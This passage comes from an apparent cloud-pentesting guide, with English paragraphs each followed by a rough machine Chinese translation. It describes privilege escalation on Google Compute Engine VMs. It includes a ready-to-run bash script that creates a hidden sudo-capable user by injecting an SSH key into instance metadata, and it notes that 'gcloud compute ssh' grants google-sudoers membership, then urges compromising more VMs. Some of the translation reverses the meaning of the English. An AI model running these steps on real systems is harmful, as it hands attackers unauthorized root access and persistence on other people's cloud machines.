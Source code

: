 No existing keys found when following the steps above? No one else interesting in `/etc/passwd` to target?

遵循上述步骤时没有发现现有的键？ 在“/etc/passwd”中，没有其他人有趣的目标吗？

You can **follow the same process** as above, but just **make up a new username**. This user will be created automatically and given rights to `sudo`. Scripted, the process would look like this:

您可以**遵循与上述相同的过程**，但只需**组成一个新的用户名**。 该用户将自动创建并授予“ sudo”的权利。 脚本，该过程看起来像这样：

```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```

## **Grant sudo to existing session**

## **将sudo授予现有会话**

This one is so easy, quick, and dirty that it feels wrong…

这个是如此简单，快速和肮脏，感觉不错……

```
gcloud compute ssh [INSTANCE NAME]
```

This will **generate a new SSH key, add it to your existing user, and add your existing username to the `google-sudoers` group**, and start a new SSH session. While it is quick and easy, it may end up making more changes to the target system than the previous methods.

这将**生成一个新的SSH键，将其添加到现有用户中，并将现有用户名添加到“ Google-Sudoers”组**中，然后启动新的SSH会话。 虽然快速简便，但最终可能比以前的方法对目标系统进行更改。

## SSH keys at project level <a href="#sshing-around" id="sshing-around"></a>

## ssh键在项目级<a href="#sshing-around" id="sshing-around"> </a>

Following the details mentioned in the previous section you can try to compromise more VMs.
